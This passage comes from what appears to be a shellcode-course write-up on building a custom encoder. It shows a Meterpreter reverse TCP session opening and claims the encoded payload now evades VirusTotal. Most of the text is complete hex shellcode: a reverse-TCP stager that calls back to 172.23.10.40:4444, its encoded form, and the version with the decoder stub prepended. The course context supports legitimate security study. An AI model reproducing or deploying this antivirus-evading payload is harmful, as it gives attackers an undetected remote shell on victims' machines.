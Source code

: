 Veryfing that the shellcode still works...

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.23.10.40:4444 
[*] Sending stage (861480 bytes) to 172.23.10.37
[*] Meterpreter session 3 opened (127.0.0.1 -> 127.0.0.1) at 2018-11-22 08:16:09 -0500
```

The file is not picked up by Virus Total anymore:

![](/assets/images/custom-encoder/msfpayload_encoded.png)

Automating the creation of the shellcode
----------------------------------------

We don't need to manually add the encoded shellcode to the `.asm` file every time and re-compile from NASM. The python script has been modified to automatically prepend the decoder stub to the output shellcode so we can just use this in the test C program.

```
slemire@slae:~/slae32/assignment4$ ./encoder.py msf_met_reversetcp.txt 
[+] Shellcode not 4 bytes aligned, adding 1 \x90 bytes of padding...
[+] Original shellcode (len: 124): \x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xac\x17\x0a\x28\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\x90

[+] Encoded shellcode (len: 159): \x45\x74\x1b\x4f\x2f\x45\x16\xa6\xb2\x9e\x93\x91\xf9\xc0\xd0\x22\xc3\xab\x44\x92\xcf\x94\x58\x4f\x02\x94\x9e\x83\x38\xfc\x7c\x7c\x7e\x14\x54\x3a\xdb\xb3\x66\x2b\xd5\x85\x8d\xb3\xbf\xb6\x57\x3f\xe1\xe7\x39\xbc\xb9\xf4\x7a\x2f\x61\x36\x56\xef\x4f\xed\x27\x72\x3b\x9c\xc4\x9c\x9c\x9c\x5c\x59\x36\x5c\x36\x70\xb9\x41\x93\xf9\x17\xd7\x92\x97\xda\x95\xb2\x7e\x28\xec\x77\x77\xce\x70\xc5\xd3\x5a\xd3\xd3\xc3\x14\x18\xff\xd5\xf7\x7e\xce\x72\x9d\xbf\xe4\x61\x64\x29\x99\x67\x3c\x77\x1f\xa7\xa0\x16\x39\x41\x29\xf7\x3a\xf4\x47\xfb\x5c\x24\x9c\xd9\xdc\x3d\x85\xdc\xc2\x3f\x51\x51\x51\x51\x50\x77\x77\x77\x76\xcc\x6f\xff\xef\xa2\x6f\x90\x90\xaa\xaa

[+] Encoded shell in NASM format: 0x45,0x74,0x1b,0x4f,0x2f,0x45,0x16,0xa6,0xb2,0x9e,0x93,0x91,0xf9,0xc0,0xd0,0x22,0xc3,0xab,0x44,0x92,0xcf,0x94,0x58,0x4f,0x02,0x94,0x9e,0x83,0x38,0xfc,0x7c,0x7c,0x7e,0x14,0x54,0x3a,0xdb,0xb3,0x66,0x2b,0xd5,0x85,0x8d,0xb3,0xbf,0xb6,0x57,0x3f,0xe1,0xe7,0x39,0xbc,0xb9,0xf4,0x7a,0x2f,0x61,0x36,0x56,0xef,0x4f,0xed,0x27,0x72,0x3b,0x9c,0xc4,0x9c,0x9c,0x9c,0x5c,0x59,0x36,0x5c,0x36,0x70,0xb9,0x41,0x93,0xf9,0x17,0xd7,0x92,0x97,0xda,0x95,0xb2,0x7e,0x28,0xec,0x77,0x77,0xce,0x70,0xc5,0xd3,0x5a,0xd3,0xd3,0xc3,0x14,0x18,0xff,0xd5,0xf7,0x7e,0xce,0x72,0x9d,0xbf,0xe4,0x61,0x64,0x29,0x99,0x67,0x3c,0x77,0x1f,0xa7,0xa0,0x16,0x39,0x41,0x29,0xf7,0x3a,0xf4,0x47,0xfb,0x5c,0x24,0x9c,0xd9,0xdc,0x3d,0x85,0xdc,0xc2,0x3f,0x51,0x51,0x51,0x51,0x50,0x77,0x77,0x77,0x76,0xcc,0x6f,0xff,0xef,0xa2,0x6f,0x90,0x90,0xaa,0xaa

[+] Encoded shellcode /w decoder stub (len: 253): \xeb\x57\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x5e\xbf\x90\x90\xaa\xaa\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x8a\x5c\x16\x1\x8a\x7c\x16\x2\x8a\x4c\x16\x3\x8a\x6c\x16\x4\x32\x1c\x16\x32\x3c\x16\x32\xc\x16\x32\x2c\x16\x88\x2c\x4\x88\x4c\x4\x1\x88\x7c\x4\x2\x88\x5c\x4\x3\x39\x7c\x16\x5\x74\xa\x42\x42\x42\x42\x42\x83\xc0\x4\x75\xc5\xff\xe4\xe8\xa4\xff\xff\xff\x45\x74\x1b\x4f\x2f\x45\x16\xa6\xb2\x9e\x93\x91\xf9\xc0\xd0\x22\xc3\xab\x44\x92\xcf\x94\x58\x4f\x02\x94\x9e\x83\x38\xfc\x7c\x7c\x7e\x14\x54\x3a\xdb\xb3\x66\x2b\xd5\x85\x8d\xb3\xbf\xb6\x57\x3f\xe1\xe7\x39\xbc\xb9\xf4\x7a\x2f\x61\x36\x56\xef\x4f\xed\x27\x72\x3b\x9c\xc4\x9c\x9c\x9c\x5c\x59\x36\x5c\x36\x70\xb9\x41\x93\xf9\x17\xd7\x92\x97\xda\x95\xb2\x7e\x28\xec\x77\x77\xce\x70\xc5\xd3\x5a\xd3\xd3\xc3\x14\x18\xff\xd5\xf7\x7e\xce\x72\x9d\xbf\xe4\x61\x64\x29\x99\x67\x3c\x77\x1f\xa7\xa0\x16\x39\x41\x29\xf7\x3a\xf4\x47\xfb\x5c\x24\x9c\xd9\xdc\x3d\x85\xdc\xc2\x3f\x51\x51\x51\x51\x50\x77\x77\x77\x76\xcc\x6f\xff\xef\xa2\x6f\x90\x90\xaa\xaa
```
